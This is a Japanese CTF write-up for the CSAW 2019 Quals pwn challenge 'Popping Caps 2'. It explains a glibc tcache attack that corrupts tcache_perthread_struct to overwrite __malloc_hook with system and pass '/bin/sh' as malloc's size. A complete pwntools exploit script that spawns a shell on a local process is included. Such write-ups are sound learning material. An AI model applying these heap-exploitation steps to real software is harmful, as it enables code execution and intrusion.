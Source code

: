 ```yaml
---
tags: pwn
---
```


# CSAW CTF 2019 Quals - Poppong Caps 2

これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

## 公式リポジトリ

<https://github.com/osirislab/CSAW-CTF-2019-Quals>

## Writeup

### Outline

[CSAW CTF 2019 Quals - Poppong Caps](/@Xornet/SyGkuSL0I)の亜種。2の癖に無印から強化された点はあんまりない
終了時のmallocが無くなったので実質回数制限は-1、よって無印と同じコードで攻撃は出来ない
その代わりにwrite時の書き込み制限が0x8から0xffまで大幅に緩和されたので`mchunk_size`を立てなくても`tcache_perthread_struct`をそのままfreeしてentriesをwriteできる。

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Binary

動作フローは無印とだいたい同じ。差異もOutlineでだいたい述べた通り。
回数制限はそのまま7回でlibc leakも最初から済んでいる。終了時のmallocが無くなりwrite時に0xffも書き込める、嬉しい。

### `tcache_perthread_struct`をfreeする

無印同様確保したポインタ`p1`からの距離がわかればどこでもfree出来る。しかも`tcache_perthread_struct`は最初から`mchunk_size`メンバがあるので無印のようにカウンタでチャンクを偽装する必要も無い

### `tcache_perthread_struct`を書き換える

無印では確保した領域に8バイトしか書き込めなかったため`tcache_perthread_struct`を先頭から確保してもせいぜい小さいサイズのカウンタを書き換えるだけだったが今回は0xffバイト書き込めるのでカウンタ部分とある程度のサイズのentriesまで書き込みが出来る。
entriesの先頭はチャンクサイズにして0x20のチャンクのtcacheの先頭になるのでここに`__malloc_fook`のアドレスを設定すれば次の`malloc(0x18)`等で`__malloc_hook`を指すポインタが手に入るので好きなように書き換える。今回は`system`のアドレスを指定した。

### `malloc(size) with system("/bin/sh")`

地味に忘れがちだが、one gadgetがlibc中に存在しているということは`"/bin/sh"`もlibc中に存在している。ということはここのオフセットが判明すればlibcのアドレスを足すことで`"/bin/sh"`のアドレスも判明する。
したがって先程の`__malloc_hook`に`system`を書き込んだことで`malloc(size)`時に`system(size)`が走ることになる。
今回サイズに大きさ制限は無い上に指定できるのでこの`size`に`"/bin/sh"`のアドレスを仕込んでおけば`system("/bin/sh")`が実行される。

いつもだったらそんな面倒なことはしないのだがOne Gadgetが全部死んだ上に回数制限のせいで`__free_hook`経由で`system("/bin/sh")`を実行するのも無理なのでこうしました。

## Code

```python
from pwn import *


def select(s, sel, c=b"choice: "):
    s.recvuntil(c)
    s.sendline(str(sel))


def malloc(s, size):
    select(s, 1)
    s.recvuntil(b"How many: ")
    s.sendline(str(size))


def delete(s, idx=0):
    select(s, 2)
    s.recvuntil(b"free: ")
    s.sendline(str(idx))


def write(s, data):
    select(s, 3)
    s.recvuntil(b"in: ")
    s.send(data)


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    """
        - 1にあった最後のmallocが無い
        - 1と比べてwriteの文字制限が緩い -> tcache_perthread_entryを一気に書き換えられる
    """
    elf = ELF("./popping_caps_2")
    malloc_got = elf.got["malloc"]
    libc = ELF("./libc.so.6")
    arena_libc = 0x3ebc40
    system_libc = libc.symbols["system"]
    free_hook_libc = libc.symbols["__free_hook"]
    malloc_hook_libc = libc.symbols["__malloc_hook"]
    one_gadget = [0x4f2c5, 0x4f322, 0x10a38c]
    binsh = next(libc.search(b"/bin/sh"))
    print(hex(binsh))

    s = process("./popping_caps_2")
    s.recvuntil(b"system ")
    libc_addr = int(s.recvline().rstrip(), 16) - system_libc
    print(hex(libc_addr))
    malloc(s, 0x18)
    delete(s, -0x250)
    malloc(s, 0x248)

    payload = p64(0) * 8 + p64(malloc_hook_libc + libc_addr)

    write(s, payload)
    malloc(s, 0x18)
    # _ = input()

    write(s, p64(libc_addr + system_libc))

    malloc(s, str(libc_addr + binsh))

    s.interactive()

```

## Flag

毎度のごとくローカルでシェル取っただけです

## 感想

最強のExploitが出そう、だったのにOne Gadgetが全部外れたせいで発狂していた。
`free(p)`で`p`に`"/bin/sh"`を指させてhookを発火させるというのはよく使うが、`malloc(size)`で`size`にアドレスを仕込むのは今回が初めてだったので覚えておきたい。

しかしこの問題も無印も`tcache_perthread_struct`の勉強の為にたどり着いてWriteupを読んだから解けたのであって実戦で出たら`mchunk_size`の偽装に苦戦したりする気配しか無い。